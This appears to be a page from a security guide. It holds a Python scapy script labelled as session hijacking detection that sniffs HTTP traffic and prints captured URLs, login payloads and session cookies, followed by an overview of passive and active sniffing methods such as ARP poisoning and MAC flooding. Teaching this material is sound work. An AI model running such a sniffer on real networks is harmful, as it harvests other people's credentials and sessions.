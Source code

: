 ```python
# Example: Simple Python script for HTTP session hijacking detection

import scapy.all as scapy
from scapy.layers import http

def sniff_packets(interface):
    scapy.sniff(iface=interface, store=False, prn=process_packet)

def get_url(packet):
    return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_credentials(packet):
    if packet.haslayer(scapy.Raw):
        load = packet[scapy.Raw].load.decode('utf-8', errors='ignore')
        keywords = ['username', 'user', 'login', 'password', 'pass', 'email']
        for keyword in keywords:
            if keyword in load.lower():
                return load

def process_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        url = get_url(packet).decode('utf-8')
        print(f"[+] HTTP Request >> {url}")
        
        credentials = get_credentials(packet)
        if credentials:
            print(f"[+] Possible credentials: {credentials}")
        
        # Check for cookies (potential session tokens)
        if packet.haslayer(http.HTTPRequest):
            if 'Cookie' in packet[http.HTTPRequest].fields:
                cookie = packet[http.HTTPRequest].Cookie.decode('utf-8')
                print(f"[+] Cookie captured: {cookie}")

print("[*] Starting packet capture...")
sniff_packets("eth0")  # Replace with your interface
```

### 4.3 Network Sniffing and Traffic Analysis

Capturing and analyzing network traffic:

1. **Passive Sniffing**:
   - Technique: Capturing traffic on the same broadcast domain
   - Tools: Wireshark, tcpdump, NetworkMiner
   - Targets: Unencrypted protocols, authentication data
   - Detection: Difficult to detect
   - Prevention: Encryption, network segmentation

2. **Active Sniffing**:
   - Technique: Forcing traffic through the attacker's system
   - Methods: ARP poisoning, MAC flooding, port mirroring
   - Tools: Ettercap, Bettercap, Arpspoof
   - Detection: Network monitoring, ARP inspection
   - Prevention: Encryption, switch security features
